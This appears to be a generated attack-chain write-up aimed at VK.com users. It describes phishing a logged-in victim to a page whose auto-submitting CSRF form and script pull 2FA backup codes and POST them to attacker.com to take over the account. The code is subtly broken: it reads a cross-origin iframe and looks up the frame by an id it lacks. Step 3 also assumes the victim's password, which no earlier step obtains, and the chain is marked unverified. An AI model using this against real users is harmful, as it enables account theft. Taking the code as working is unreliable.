

# CSRF Exploitation to Retrieve VK.com 2FA Backup Tokens Leading to Account Takeover

Multi-stage attack chain demonstrating a complete attack workflow exploiting CSRF and framing issues in VK.com's 2FA backup token retrieval to compromise user accounts.

## Chain Metrics Dashboard

| Metric | Value |
|--------|-------|
| Chain Status | Unverified |
| Total Steps | 3 |
| Execution Time | ~5 minutes |
| Skill Level | Intermediate |
| Complexity | Medium |
| Impact Level | High |

## Attack Flow Visualization



## Prerequisites & Requirements

### Required Tools

- Web browser for testing (e.g., Chrome Developer Tools)
- Local web server to host malicious page (e.g., Python's SimpleHTTPServer)

### Target Environment

- VK.com web application
- Victim must be authenticated with 2FA enabled
- No specific ports; operates over HTTPS on port 443

### Initial Access Requirements

- Victim's browser must be logged into VK.com
- Attacker needs to lure victim to malicious site (e.g., via phishing link)
- No prior credentials needed; exploits active session

## Detailed Attack Procedures

### Step 1: Initial Access

procedure: [[procedures/Exploit-CSRF-for-Backup-Token-Retrieval]]

**Objective**: Lure the victim to a malicious page that initiates the CSRF attack while they are authenticated on VK.com.

**Instructions**: Host a malicious HTML page on an attacker-controlled server. The page uses an auto-submitting form or iframe to target the VK.com backup token endpoint. Ensure the victim clicks a phishing link to visit this page while logged in.

Example malicious HTML:

```html
<!DOCTYPE html>
<html>
<body>
<form id="csrf-form" action="https://vk.com/backup_codes" method="POST" target="backup-frame">
    <!-- No CSRF token included -->
</form>
<iframe name="backup-frame" style="display:none;"></iframe>
<script>
    document.getElementById('csrf-form').submit();
</script>
</body>
</html>
```

Serve this via a local server and send the URL to the victim.

**Expected Output**: The form submits silently, requesting backup codes from VK.com using the victim's session.

**Success Indicators**:
- Victim visits the page (confirm via server logs)
- No user interaction required beyond visiting

### Step 2: Execution

procedure: [[procedures/Exploit-CSRF-for-Backup-Token-Retrieval]]

**Objective**: Forge the request to retrieve the list of 2FA backup tokens without proper validation.

**Instructions**: The malicious page exploits the lack of CSRF tokens on the backup code display endpoint. Due to framing issues without hash validation, the response (list of backup codes) can be captured or exfiltrated. Use JavaScript to read the iframe content post-submission.

Extend the HTML with exfiltration:

```html
<script>
    window.onload = function() {
        var frame = document.getElementById('backup-frame');
        frame.onload = function() {
            var codes = frame.contentDocument.body.innerText;
            // Exfiltrate to attacker server
            fetch('https://attacker.com/exfil', {method: 'POST', body: codes});
        };
        document.getElementById('csrf-form').submit();
    };
</script>
```

**Expected Output**: Backup codes retrieved and sent to attacker (e.g., visible in server logs).

**Success Indicators**:
- Iframe loads VK.com response
- Codes captured without errors

### Step 3: Privilege Escalation

procedure: [[procedures/Exploit-CSRF-for-Backup-Token-Retrieval]]

**Objective**: Use the obtained backup tokens to bypass 2FA and takeover the account.

**Instructions**: With the backup codes, attempt login on VK.com using the victim's credentials plus one backup code for 2FA verification. This grants full access.

Manual steps:
1. Navigate to VK.com login.
2. Enter username/password.
3. When prompted for 2FA, use a retrieved backup code.

**Expected Output**: Successful login and session establishment.

**Success Indicators**:
- Account access confirmed (e.g., view private data)
- 2FA prompt accepted with backup code

## Attack Chain Summary

### Key Achievements

1. Silent retrieval of 2FA backup tokens via CSRF without user awareness.
2. Bypassing 2FA protections leading to full account compromise.
3. Exploitation of framing without hash validation for code exfiltration.

## Technique & Tactic Coverage

### MITRE ATT&CK Techniques

- [[Exploit Public-Facing Application]] Exploit Public-Facing Application
- [[Credentials In Files]] Credentials In Files (for backup tokens)

### MITRE ATT&CK Tactics

- [[Initial Access]] Initial Access
- [[Credential Access]] Credential Access

---
*Last updated: 2023-10-01T12:00:00Z*
